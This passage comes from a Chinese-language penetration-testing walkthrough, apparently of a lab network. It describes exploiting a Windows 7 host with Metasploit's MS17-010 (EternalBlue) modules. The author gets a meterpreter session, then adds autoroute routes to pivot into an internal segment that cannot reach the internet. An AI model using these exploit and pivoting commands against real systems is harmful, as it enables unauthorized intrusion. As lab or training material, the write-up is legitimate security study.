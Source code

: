 ![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjFnBf76RZPia1Gntz3X5icYgP3G5psYy4KmsoEco9TctV19cME5XzaiaTQ/640?wx_fmt=png)

运行之后发现 exp 已经打过去了但是没有 session 建立

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjzxIggT3S9a2fVmRHbBGlNvgypxCR7VhQmfJI6gmBt0Vclr8TVxr5Hw/640?wx_fmt=png)

再换个`ms17010`的模块

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/bind_tcp
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjZTeutibskVHt5DXDIicCJzl8EeibAnbDSDdTy9PGubFDibkc3A5lB6mx8g/640?wx_fmt=png)

同样没有拿到 shell，当时没有细想，后来我考虑到可能是 win7 处于两个网段的原因，所以用永恒之蓝直接打是拿不到 shell 的

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1Pj5m4aVlU4IR8eNvHiaIm0aoJ2odblRyFicryyyuugpLlr3XaDRh0e6hRg/640?wx_fmt=png)

**msf 打不出网机器的 ms_17_010**

想到之前拿到了 win7 的 meterpreter，所以用添加路由的方式尝试一下。

msf 在单兵作战的时候还是很稳定很香的。win7 在 msf 上线后，因为我们已经提前知道了，存在 52 这个不出网的段，那么就需要在 msf 中添加路由

**1. 查看路由**

```
run get_local_subnets
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjGO4c5MkictEHwXmULWEcHpHxiaceOO80cpatpU4JusibjZwHHmuHB2ictQ/640?wx_fmt=png)

**2. 添加路由**

```
run autoroute -s 192.168.52.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1Pj1KDDnux2jsQ27WWGc5sEjSVBkx4Ro71Xqh7P5WhZN6gb97a88z0MAQ/640?wx_fmt=png)

**3. 查看添加的路由**

```
run autoroute -p
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjM1njwib9BXxGLydeNczHMVk9HlSXyqDhLdCnPg0eQhushpCL0eVUznA/640?wx_fmt=png)

**4. 开始攻击**

把 shell 切换到后台，再运用 ms17_010_eternalblue 模块

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjD1QkOgibBxF7mz5Bpiauqke82DKl8GUnODKicJQuvr2OU8nfpiajib0aXqw/640?wx_fmt=png)

这次能够成功建立连接

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1Pjia90KO8hSqor20AD4CicdzUQmW7VXxXW8xmR9TibKhFicfuUM6cXvJzUpQ/640?wx_fmt=png)
